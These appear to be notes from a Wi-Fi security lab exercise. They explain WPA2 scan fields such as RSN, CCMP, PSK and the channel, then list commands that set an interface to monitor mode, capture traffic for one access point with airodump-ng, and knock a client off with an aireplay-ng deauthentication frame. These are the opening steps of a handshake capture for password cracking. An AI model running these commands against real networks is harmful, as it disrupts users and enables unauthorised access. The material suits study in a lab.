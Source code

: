 - The presence of **RSN (Robust Security Network)** indicates the network is using WPA2, as RSN is a part of the WPA2 standard. WPA2 networks typically use RSN to define the encryption and authentication settings.
- The `Group and Pairwise ciphers` are **CCMP**. Counter Mode with Cipher Block Chaining Message Authentication Code Protocol (CCMP) is the encryption method used by WPA2.
- `Authentication suites` value inside RSN is **PSK** indicating that this is a WPA2-Personal network, where a shared password is used for authentication.
- `DS Parameter set` value, which shows **channel 6**. The channel, in terms of Wi-Fi, refers to a specific frequency range within the broader Wi-Fi spectrum that allows wireless devices to communicate with each other.
	- The two most common Wi-Fi channels are 2.4 GHz and 5GHz. 
	- In the 2.4 GHz band, channels 1, 6, and 11 are commonly used because they don’t overlap, minimising interference. 
	- In the 5 GHz band, there are many more channels available, allowing more networks to coexist without interference.

**monitor** mode. 
This is a special mode primarily used for network analysis and security auditing. In this mode, the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether it is directed to the device or not.

```
# passively captures all network traffic for analysis NOT joining a network.

# to turn our device off
sudo ip link set dev wlan2 down

# change wlan2 to monitor mode
sudo iw dev wlan2 set type monitor

# turn our device back on
sudo ip link set dev wlan2 up

# confirm monitor mode
sudo iw dev wlan2 info
```

```
ssh glitch@10.10.228.21

iw dev
sudo iw dev wlan scan
```
2 separate terminals 
```
# terminal 1
ssh glitch@10.10.228.21

sudo airodump-ng wlan2
# ctrl+c
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file

sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
```
